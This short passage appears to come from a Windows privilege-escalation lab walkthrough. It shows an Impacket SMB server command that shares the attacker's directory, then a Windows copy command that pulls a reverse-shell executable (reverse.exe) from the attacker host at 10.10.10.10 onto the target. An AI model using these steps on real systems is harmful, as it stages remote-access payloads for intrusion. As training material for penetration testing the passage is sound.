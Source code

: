 ```
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
```


This command will turn my linux server and current directory into SMB shares

Now in a windows target system we can download these shares using below command:

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
	```

